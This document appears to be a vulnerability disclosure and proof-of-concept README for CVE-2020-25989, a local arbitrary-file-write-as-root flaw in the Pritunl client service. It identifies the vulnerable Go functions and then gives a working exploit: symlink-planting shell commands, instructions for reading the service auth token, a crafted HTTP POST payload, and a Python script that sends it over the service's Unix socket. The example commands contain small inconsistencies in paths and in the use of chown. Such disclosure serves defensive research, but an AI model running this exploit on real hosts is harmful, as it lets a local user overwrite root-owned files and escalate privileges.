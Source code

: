# Arbitrary File Write in Pritunl (CVE 2020-25989)

## Vulnerability

Arbitrary file write as root in pritunl versions between 1.0.1116.6 and
v1.2.2550.20. The pritunl-service writes to the following paths as root without checking if the file exists.

<ol>
<li>/tmp/pritunl/{profile_id}</li>
<li>/tmp/pritunl/{profile_id}-down.sh</li>
<li>/tmp/pritunl/{profile_id}-up.sh</li>
<li>/tmp/pritunl/{profile_id}-block.sh</li>
<li>/tmp/pritunl/{profile_id}.auth</li>
</ol>

the /tmp/pritunl/{profile_id}.auth path allows for fully controlled contents to be written to an arbitrary file on the host by placing a symlink in place of the file and submitting a malicious Profile POST request to the service with a crafted username and password. 

The following steps outline how to setup the test data.
```bash
touch /tmp/root_test
sudo chown 0600 /tmp/root_test
```
The following steps outline how to exploit the vulnerability.
```bash
mkdir /tmp/pritunl
ln -s /tmp/root_test /tmp/123467.auth
```
An attacker can then get the auth token required to interact with the service by reading 
```
/var/run/pritunl.auth
```
The following example post request is then used to exploit the vulnerability.
```http
POST /profile HTTP/1.1
Auth-Key: Tp0JSp3iugTipiq2U9CpJcHuGkQGM3VvspS6gu6rtUfLCmOOlzl0gFkEFGiX67Zc
User-Agent: pritunl
Host: unix
accept: application/json
content-type: application/json
content-length: 286
Connection: close

{"id":"1234567","mode":"ovpn","org_id":"org_id_test","user_id":"user_id_test","server_id":"server_id_test","sync_token":"sync_token_test","sync_secret":"sync_secret_test","username":"username_test","password":"password_test","token_ttl":12345678,"reconnect":false,"timeout":false}
```

The strings "username_test" and "password_test" will be written to the file at the symlink (in this example that file is /tmp/root_test).

The contents of /tmp/root_test will now be.
```
username_test
password_test
```
These issues stem from the following functions in /service/Profile/Profile.go

<ol>
<li>write()</li>
<li>writeDown()</li>
<li>writeUp()</li>
<li>writeBlock()</li>
<li>writeAuth()</li>
</ol>
These functions call ioutil.WriteFile directly on the path that is generated without first checking if these files exist, allowing an attacker to create a symlink at /tmp/pritunl/{file} allowing for arbitrary file write as root.

## PoC

Python PoC to interact with the pritunl-service and exploit the vulnerability 

```python
import socket
import os 

os.mkdir("/tmp/pritunl")
file_overwirte_path = "/tmp/root_test"
os.symlink(file_overwirte_path, "/tmp/pritunl/1234567.auth")

server_address = "/var/run/pritunl.sock"
auth = open("/var/run/pritunl.auth", "r").read()

payload = """POST /profile HTTP/1.1
Auth-Key: """ + auth + """
User-Agent: pritunl
Host: unix
accept: application/json
content-type: application/json
content-length: 286
Connection: close

{"id":"1234567","mode":"ovpn","org_id":"org_id_test","user_id":"user_id_test","server_id":"server_id_test","sync_token":"sync_token_test","sync_secret":"sync_secret_test","username":"root_file_write","password":"test","token_ttl":12345678,"reconnect":false,"timeout":false}
"""
sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
sock.connect(server_address)
sock.sendall(payload.encode('utf-8'))
```
